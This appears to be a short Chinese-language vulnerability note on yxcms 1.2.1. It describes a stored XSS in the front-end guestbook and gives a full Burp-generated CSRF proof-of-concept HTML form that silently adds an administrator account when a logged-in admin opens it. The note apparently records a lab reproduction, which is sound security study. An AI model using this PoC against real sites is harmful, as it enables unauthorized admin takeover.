



### yxcms

```
版本信息：1.2.1
```

#### 前台留言XSS

在前台留言处插入payload




管理员查看留言即可触发





#### CSRF添加管理员

火狐浏览器，构造poc，将以下内容复制到html文件

```
<html>

 <!-- CSRF PoC - generated by Burp Suite Professional -->

 <body>

  <script>history.pushState('', '', '/')</script>

  <form action="http://192.168.81.116:10003/index.php?r=admin/admin/index" method="POST">


   <input type="hidden" name="groupid" value="1" />

   <input type="hidden" name="username" value="demo" />

   <input type="hidden" name="rpassword" value="123456" />

   <input type="hidden" name="spassword" value="123456" />

   <input type="hidden" name="realname" value="demo" />

   <input type="hidden" name="iflock" value="0" />

   <input type="submit" value="Submit request" />

  </form>

 </body>

</html>
```

将该文件诱使管理员打开访问

管理员在登录的情况下访问了该文件即可成功添加一个管理员用户，攻击者使用添加的管理员可成功登录后台



